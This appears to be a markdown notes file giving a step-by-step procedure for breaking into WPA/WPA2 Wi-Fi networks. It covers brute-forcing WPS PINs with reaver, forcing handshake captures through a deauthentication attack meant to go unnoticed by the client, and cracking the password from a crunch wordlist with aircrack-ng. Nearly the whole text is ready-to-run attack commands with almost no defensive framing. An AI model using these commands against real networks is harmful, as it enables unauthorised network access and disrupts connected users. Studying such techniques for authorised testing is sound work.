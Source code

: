 # Gaining access WPA/WPA2

## Gaining access if WPS is enabled and misconfigured

this method is used if the network is configured with WPS to use pin instead of PBA (Push Button Authentication)

- list all network using WPS
```
wash --interface <wireless-adapter>
```

- Before starting the attack is better to run airodump-ng to listen to the target network, this ensure that the wireless adapter is set to the same channel as the target.
```
airodump-ng --bssid <target-bssid> --channel <target-channel> <wireless-adapter>
```

- start bruteforce the pin once the assosiation in the next command is enstablished
```
reaver --bssid <target-bssid> --channel <target-channel> --interface <wireless-adapter> -vvv --no-associate
```
-vvv: outputs more usefull information;<br>
--no-associate: because we do it manually after, reaver can do it automatically but it has more chance to fail.

- assosiate with the target network
```
aireplay-ng --fakeauth 30 -a <target-bssid> -h <wireless-adapter-mac-addr> <wireless-adapter>
```
the option 30 tels to assosiate every 30 seconds.<br>
(Make sure the previous command reaver is running)

## Gaining access if WPS is not enabled or configured to use PBA

- listen to terget network and store data to file
```
airodump-ng --bssid <target-bssid> --channel <target-channel> --write <filename> <wireless-adapter>
```

- wait a new client to connect to capture the headshake package
to avoid waiting we can execute an deauthentication attack to force a client to reconnect:
```
aireplay-ng --deauth 4 -a <target-bssid> -c <client-mac-addr> <wireless-adapter>
```
option 4 because we disconnect the client for a very short time, he won't even notice.

- once the heandshake is capture we can quit airodump-ng

- generate a wordlist
```
crunch <min> <max> <character> -t <pattern> -o <filename>
```

- test all words in the wordlist to find the valid password
```
aircrack-ng <filename.cap> -w <wordlist-filename>
```
